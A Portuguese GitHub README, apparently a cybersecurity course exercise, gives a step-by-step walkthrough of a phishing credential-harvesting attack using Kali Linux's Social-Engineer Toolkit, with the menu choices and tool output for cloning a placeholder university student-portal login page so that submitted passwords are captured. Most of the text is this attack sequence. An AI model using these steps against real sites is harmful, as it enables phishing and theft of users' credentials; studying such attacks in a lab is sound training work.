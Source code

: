 # Phishing para captura de senhas 🚩

Fazer a captura de usuário e senha de um site usando ferramentas do kali Linux

## Ferramentas 👨‍💻

- Kali Linux
- setoolkit

## Passo a Passo 👣


• Acesso root: sudo su

• Iniciando o setoolkit: setoolkit

                                                                   
 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

set> 


• Tipo de ataque: Social-Engineering Attacks

set> 1

 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules

  99) Return back to the main menu.

set> 


• Vetor de ataque: Web Site Attack Vectors

set> 2


   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method

  99) Return to Main Menu

set:webattack>


• Método de ataque: Credential Harvester Attack Method 

set:webattack>3

 The first method will allow SET to import a list of pre-defined web
 applications that it can utilize within the attack.

 The second method will completely clone a website of your choosing
 and allow you to utilize the attack vectors within the completely
 same web application you were attempting to clone.

 The third method allows you to import your own website, note that you
 should only have an index.html when using the import website
 functionality.
   
   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu

set:webattack>


• Método de ataque: Site Cloner

set:webattack>2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as place them into a report



set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.0.191]: 
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com


• Obtendo o endereço da máquina: ifconfig
• URL para clone: http://www.exemplofaculdade.com


set:webattack> Enter the url to clone: http://www.exemplofaculdade.com

[*] Cloning the website: https://login.exemplofaculdade.com/login.php                                  
[*] This could take a little bit...                                                            

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.                                                      
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80                                                 
[*] Information will be displayed to you as it arrives below:          

## Resultados 🎁

![Alt text](./results1.png)

Figura 1: Site de uma faculdade para o portal do aluno

![Alt text](./results2.png)

Figura 2: Imagem do Kali Linux usando a ferramenta SETOOLKIT

## Referências 📚

- https://web.dio.me/track/santander-ciberseguranca-2024
- https://www.kali.org/

## Updates 🕐

2024/12/10 - Primeira versão

## Pendências 🚨

